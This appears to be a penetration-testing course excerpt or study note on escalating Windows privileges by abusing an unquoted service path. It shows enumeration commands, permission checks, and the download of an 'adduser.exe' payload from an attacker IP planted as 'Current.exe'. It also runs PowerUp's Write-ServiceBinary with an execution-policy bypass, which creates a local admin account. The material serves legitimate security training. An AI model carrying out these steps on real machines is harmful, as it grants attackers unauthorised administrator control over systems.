 # Unquoted Service Paths

In order to exploit this and subvert the original unquoted service
call, we must create a malicious executable, place it in a directory
that corresponds to one of the interpreted paths, and match its name
to the interpreted filename. Then, once the service is started, our
file gets executed with the same privileges that the service starts
with. Often, this happens to be the *LocalSystem* account, which
results in a successful privilege escalation attack.

In the context of the example, we could name our executable
**Program.exe** and place it in **C:\**, **My.exe** and place it in
**C:\Program Files\**, or **My.exe** and place it in **C:\Program
Files\My Program\**. However, the first two options would require
some unlikely permissions since standard users don't have the
permissions to write to these directories by default. The third
option is more likely as it is the software's main directory. If
an administrative user or developer set the permissions for this
directory too open, we can place our malicious binary there.

**Enumerating stopped services:**

```
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName

Name                      State   PathName
----                      -----   --------
...
GammaService                             Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

shows a stopped service named
*GammaService*. The unquoted service binary path contains multiple
spaces and is therefore potentially vulnerable to this attack vector.

A more effective way to identify spaces in the paths and missing
quotes is using the *WMI command-line* (WMIC)[3](https://portal.offsec.com/courses/pen-200-44065/learning/windows-privilege-escalation-45276/leveraging-windows-services-47210/unquoted-service-paths-45286#fn-local_id_671-3) utility. We can
enter **service** to obtain service information and the verb **get**
with **name** and **pathname** as arguments to retrieve only these
specific property values. We'll pipe the output of this command to
**findstr** with **/i** for case-insensitive searching and **/v** to
only print lines that don't match. As the argument for this command,
we'll enter **"C:\Windows\"** to show only services with a binary
path outside of the Windows directory. We'll pipe the output of this
command to another **findstr** command, which uses **"""** as argument
to print only matches without quotes

**Using findstr to enumerate blank spaces in system:**

```
C:\Users\steve> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Name                                       PathName
...
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

**Checking if we can start and stop the services:**

```
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```

**Now, we can list out the paths one by one and then try to see our permissions for those paths:**

```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

```
PS C:\Users\steve> icacls "C:\"
C:\ BUILTIN\Administrators:(OI)(CI)(F)
    NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
    NT AUTHORITY\Authenticated Users:(AD)
    Mandatory Label\High Mandatory Level:(OI)(NP)(IO)(NW)

Successfully processed 1 files; Failed processing 0 files

PS C:\Users\steve>icacls "C:\Program Files"
C:\Program Files NT SERVICE\TrustedInstaller:(F)
                 NT SERVICE\TrustedInstaller:(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(M)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 BUILTIN\Administrators:(M)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 BUILTIN\Users:(RX)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
...

```

As expected, our user *steve*, as a member of *BUILTIN\Users*
and *NT AUTHORITY\AUTHENTICATED Users*, has no Write permissions in
either of these paths. Now, let's check the path of the third option.
We can skip the fourth path since it represents the service binary
itself.

```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)
```

*BUILTIN\Users*
has Write (w) permissions on the path **C:\Program Files\Enterprise
Apps**. Our goal is now to place a malicious file named
**Current.exe** in **C:\Program Files\Enterprise Apps\**.

We can reuse the **adduser.exe** binary by compiling the C code from
the section "Service Binary Hijacking". On Kali, we start a Python3
web server in the directory of the executable file in order to serve
it.

Once the web server is running, we can download **adduser.exe** on
the target machine as *steve*. To save the file with the correct
name for our privilege escalation attack, we enter **Current.exe** as
argument for **-Outfile**. After the file is downloaded, we copy it to
**C:\Program Files\Enterprise Apps**

```
PS C:\Users\steve> iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe

PS C:\Users\steve> copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

**After we start service Start-Service GammaService , we can see that user dave is added to local admin group**

# Automating attack with powerup

```
PS C:\Users\dave> iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...

PS C:\Users\dave> . .\PowerUp.ps1

PS C:\Users\dave> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

```

> Listing 75 - Using Get-UnquotedService to list potential vulnerable services
> 

Listing 75 shows that the GammaService was
identified as vulnerable. Let's use the AbuseFunction and restart
the service to attempt to elevate our privileges. For **-Path**,
we enter the same path for **Current.exe** as we did in Listing
73. As stated before, the default
behavior is to create a new local user called *john* with the
password *Password123!*. Additionally, the user is added to the local
*Administrators* group.

```
PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...

PS C:\Users\steve> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand

PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
john
...

```